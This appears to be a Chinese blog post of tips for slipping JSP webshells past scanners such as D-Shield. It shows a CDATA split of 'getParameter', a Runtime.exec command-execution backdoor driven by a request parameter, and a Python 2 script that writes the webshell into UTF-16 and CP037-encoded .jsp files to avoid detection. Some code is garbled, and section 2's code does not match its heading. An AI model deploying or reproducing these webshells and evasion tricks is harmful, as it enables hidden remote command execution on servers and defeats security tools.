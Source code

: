 本人对java研究的不是非常深入，因此主要分享的还是平时收集的几个小tips，如果有没看过的师傅现在看到了也是极好的，java
unicode绕过就不再多言。  

  

####  **0、小小Tips**

jsp的后缀可以兼容为jspx的代码，也兼容jspx的所有特性，如CDATA特性。  
jspx的后缀不兼容为jsp的代码，jspx只能用jspx的格式。

  

####  **1、jspx CDATA特性**

在XML元素里，<和&是非法的，遇到<解析器会把该字符解释为新元素的开始，遇到&解析器会把该字符解释为字符实体化编码的开始。

  

但是我们有时候有需要在jspx里添加js代码用到大量的<和&字符，因此可以将脚本代码定义为CDATA。

  

CDATA部分内容会被解析器忽略，此时ameter依旧会与getPar拼接成为getParameter。

  *   * 

    
    
    格式：<![CDATA[xxxxxxxxxxxxxxxxxxx]]>例如：String cmd = request.getPar<![CDATA[ameter]]>("shell");

  

####  **2、实体化编码**

  *   *   * 

    
    
     if (cmd !=null){        Process child = Runtime.getRuntime().exec(cmd);        InputStream in = child.getInputStream();

  

####  **3、利用java支持其他编码格式来进行绕过**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     #python2charset = "utf-8"data = '''<%Runtime.getRuntime().exec(request.getParameter("i"));%>'''.format(charset=charset)  
    f16be = open('utf-16be.jsp','wb')f16be.write('<%@ page contentType="charset=utf-16be" %>')f16be.write(data.encode('utf-16be'))  
      
    f16le = open('utf-16le.jsp','wb')f16le.write('<jsp:directive.page contentType="charset=utf-16le"/>')f16le.write(data.encode('utf-16le'))  
    fcp037 = open('cp037.jsp','wb')fcp037.write(data.encode('cp037'))fcp037.write('<%@ page contentType="charset=cp037"/>')

![](https://gitee.com/fuli009/images/raw/master/public/20220416212808.png)

  

可以看到对于D盾的免杀效果还是非常好的。

![]()

